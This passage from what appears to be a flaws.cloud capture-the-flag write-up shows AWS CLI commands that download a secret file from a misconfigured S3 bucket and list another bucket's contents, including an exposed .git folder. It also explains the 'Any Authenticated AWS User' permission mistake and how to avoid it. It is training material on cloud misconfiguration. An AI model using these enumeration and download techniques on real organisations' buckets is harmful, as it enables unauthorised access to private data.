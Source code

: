BOOM!!!
Let's save the secret2 file.
```
└─$ aws s3 cp --profile gteksd s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret2.html
```
```
download: s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html to ./secret2.html
```

```
└─$ open secret2.html
```
```
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_ 
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|

Congrats! You found the secret file!
Level 3 is at http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
```

### Lesson learned
Similar to opening permissions to "Everyone", people accidentally open permissions to "Any Authenticated AWS User". They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account.

### Examples of this problem
- Open permissions for authenticated AWS user on Shopify (link) 

### Avoiding the mistake
Only open permissions to specific AWS users. This screenshot is from the webconsole in 2017.

![Permissions-2017](https://github.com/GTekSD/SUASS/assets/55411358/e0ac40e8-1a8b-485c-a2f4-966f196a1c97)

This screenshot is from the webconsole in 2024.

![Permissions-2024](https://github.com/GTekSD/SUASS/assets/55411358/2ed85f34-017e-46f9-873f-e8f9074aae71)

--------------------

# Level 3
Level 3 is at http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud

Like the first level, we should have figured out how to list the files in this directory, and seen that listing in this bucket is open to "Everyone". See the file listing at level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.s3.amazonaws.com
```
└─$ aws s3 ls --profile gteksd s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
```
```
                           PRE .git/
2017-02-27 05:44:33     123637 authenticated_users.png
2017-02-27 05:44:34       1552 hint1.html
2017-02-27 05:44:34       1426 hint2.html
2017-02-27 05:44:35       1247 hint3.html
2017-02-27 05:44:33       1035 hint4.html
2020-05-22 23:51:10       1861 index.html
2017-02-27 05:44:33         26 robots.txt
```
